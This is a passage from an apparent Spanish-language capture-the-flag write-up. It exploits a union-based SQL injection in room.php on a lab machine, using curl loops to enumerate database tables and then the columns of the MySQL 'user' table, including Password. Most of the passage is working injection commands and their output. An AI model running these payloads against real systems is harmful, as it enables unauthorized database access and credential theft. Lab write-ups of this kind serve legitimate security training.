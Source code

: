 De manera similar, podríamos obtener los nombres de las tablas con la sentencia `10.10.10.143/room.php?cod=0 union select 1,2,table_name,4,5,6,7 from information_schema.tables limit 0,1-- -`:

```bash
❯ for i in $(seq 0 150); do echo "[*] Tabla $i: $(curl -s "http://10.10.10.143/room.php?cod=0%20union%20select%201,2,table_name,4,5,6,7%20from%20information_schema.tables%20limit%20$i,1--%20-" | grep "price-room" | awk '{print $2}' FS=">" | cut -d '<' -f 1)"; sleep 2; done
[*] Tabla 0: room
[*] Tabla 1: ALL_PLUGINS
[*] Tabla 2: APPLICABLE_ROLES
^C#                  
```

Para este caso y para adelantar un poco, vamos a empezar desde la tabla 100:

```bash
❯ for i in $(seq 100 150); do echo "[*] Tabla $i: $(curl -s "http://10.10.10.143/room.php?cod=0%20union%20select%201,2,table_name,4,5,6,7%20from%20information_schema.tables%20limit%20$i,1--%20-" | grep "price-room" | awk '{print $2}' FS=">" | cut -d '<' -f 1)"; sleep 2; done
[*] Tabla 100: slow_log
[*] Tabla 101: table_stats
[*] Tabla 102: tables_priv
[*] Tabla 103: time_zone
[*] Tabla 104: time_zone_leap_second
[*] Tabla 105: time_zone_name
[*] Tabla 106: time_zone_transition
[*] Tabla 107: time_zone_transition_type
[*] Tabla 108: user
[*] Tabla 109: accounts
[*] Tabla 110: cond_instances
[*] Tabla 111: events_stages_current
[*] Tabla 112: events_stages_history
[*] Tabla 113: events_stages_history_long
^C#                                                                                                                              
```

Ya vemos una tabla interesante **user**; asi que vamos a tratar de obtener las columnas con la inyección `10.10.10.143/room.php?cod=0 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_name='user' limit 0,1-- -`:

```bash
❯ for i in $(seq 0 100); do echo "[*] Columna $i: $(curl -s "http://10.10.10.143/room.php?cod=0%20union%20select%201,2,column_name,4,5,6,7%20from%20information_schema.columns%20where%20table_name%20=%20'user'limit%20$i,1--%20-" | grep "price-room" | awk '{print $2}' FS=">" | cut -d '<' -f 1)"; sleep 2; done
[*] Columna 0: Host
[*] Columna 1: User
[*] Columna 2: Password
[*] Columna 3: Select_priv
[*] Columna 4: Insert_priv
[*] Columna 5: Update_priv
[*] Columna 6: Delete_priv
[*] Columna 7: Create_priv
[*] Columna 8: Drop_priv
[*] Columna 9: Reload_priv
[*] Columna 10: Shutdown_priv
[*] Columna 11: Process_priv
[*] Columna 12: File_priv
[*] Columna 13: Grant_priv
[*] Columna 14: References_priv
[*] Columna 15: Index_priv
^C#  
```
